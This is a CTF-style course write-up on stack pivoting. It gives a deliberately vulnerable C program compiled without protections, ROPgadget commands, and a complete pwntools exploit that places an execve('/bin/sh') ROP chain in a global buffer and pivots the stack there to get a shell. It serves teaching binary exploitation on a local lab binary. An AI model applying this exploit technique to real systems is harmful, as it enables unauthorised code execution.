 ```yaml
---
title: Simple PWN - 0x09(stack pivoting)
tags: [CTF, PWN, eductf]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple PWN - 0x09(stack pivoting)
###### tags: `CTF` `PWN` `eductf`

## Stack Pivoting background
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=6865)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=7898)
It was used when stack overflow bytes not big enough to access a shellcode but it has another lots of writable space can be accessed.
More detailed info. can refer to [Binary Exploitation (Pwn)](https://youtu.be/5D7tvxpSUUM?t=9543)


## Original Code
```cpp!
#include <stdio.h>
#include <unistd.h>

char name[0x80]

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Give me your name: ");
    read(0, name, 0x80);

    printf("Give me your ROP: ");
    read(0, s, 0x20);

    return 0;
}
```
* You can observe that it has not much stack buffer overflow can use, but it has global variable `name` with space `0x80`(can be another stack)
    ```bash!
    gcc -o stack_pivoting stack_pivoting.c -no-pie -fno-stack-protector -z norelro -zexecstack -static
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission of global variable `name` just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/z8cK5SM.png)
    ![](https://imgur.com/J6qKJ8N.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/gNr8Fya.png)

## Exploit
1. Construct `ROP` chain
    ```bash!
    objdump -d -M Intel stack_pivoting | grep "<name>"
    ROPgadget --binary stack_pivoting --only "pop|ret|syscall|leave" > one_gadget
    vim one_gadget
    ```
    ![](https://imgur.com/TYmCYw4.png)
    ![](https://imgur.com/o5L0Uvu.png)
    ![](https://imgur.com/OU9yJU4.png)
    ![](https://imgur.com/tWcfPEN.png)
    ![](https://imgur.com/ix4Phxm.png)
    ![](https://imgur.com/aZN3iu8.png)
    
2. Find address of variable `name`
    ```bash!
    objdump -d -M Intel stack_pivoting | grep "<name>"
    ```
    ![](https://imgur.com/l6OIT2S.png)
3. Whole exploit
    :::spoiler Code
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./stack_pivoting')
    raw_input()
    name = 0x4c70c0
    leave_ret = 0x40182d
    pop_rdi_ret = 0x401ecf
    pop_rsi_ret = 0x409efe
    pop_rax_ret = 0x44fd07
    pop_rdx_rbx_ret = 0x485b2b
    syscall = 0x401c84

    ROP = b'/bin/sh\x00'
    ROP += flat(
        pop_rdi_ret, name,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall
    )

    r.sendafter("Give me your name: ", ROP)
    raw_input()
    r.sendafter("Give me your ROP: ", b'a'*0x10 + p64(name) + p64(leave_ret))

    r.interactive()
    ```
    :::
    * First, write `ROP` chain to global variable `name`
    * Next, use 2 `leave ; ret` to pivot `name` as a stack
4. Finally, you got shell!!!
    ![](https://imgur.com/kCyVi4N.png)

## Reference
[mprotect.2 man](https://man7.org/linux/man-pages/man2/mprotect.2.html)
[trace 30個基本Linux系統呼叫第二十二日：mprotect](https://ithelp.ithome.com.tw/articles/10187093)